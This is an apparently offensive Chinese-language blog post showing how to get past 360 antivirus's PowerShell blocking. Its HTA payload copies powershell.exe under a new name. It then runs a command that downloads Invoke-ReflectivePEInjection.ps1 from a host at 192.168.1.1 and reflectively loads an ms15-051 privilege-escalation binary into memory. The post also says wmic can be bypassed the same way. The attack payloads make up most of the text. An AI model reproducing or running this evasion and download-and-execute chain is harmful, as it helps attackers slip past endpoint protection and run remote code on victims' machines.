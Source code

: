 ```yaml
---
title: "绕过 360 对 PowerShell 的拦截"
date: 2019-08-06T00:00:00+08:00
draft: false
tags: ['360','powershell','bypass']
categories: ['内网渗透','bypass']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


360 不拦截 PowerShell 本身的执行, 拦截的是其它进程对 powershell.exe 的调用.

以 mshta 为例.

<!--more-->

默认执行命令的 Payload.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "powershell.exe"
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

很显然是会被拦截的.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151651.png)

利用一点小 trick.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Dim fso
Set fso = CreateObject("Scripting.FileSystemObject")
fso.CopyFile "C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe", "C:/Windows/Temp/powershell.com", True
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "C:/Windows/Temp/powershell.com -ep bypass -nop -c ""IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1:8000/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.1.1:8000/ms15-051.exe -ExeArgs whoami;cmd /c pause"""
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

我们把位于系统目录中的 powershell.exe 复制到 Temp 目录下并重命名为 powershell.com, 然后通过 powershell.com 执行命令.

这里使用的是远程加载 PE 文件至内存中执行.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151831.png)

并不会被拦截.

实测中将程序改为任意其它文件名再执行都能够绕过 360 的拦截.

原因很简单, 360 把文件名写死了.

wmic 同理.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151929.png)

修改后.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806152108.png)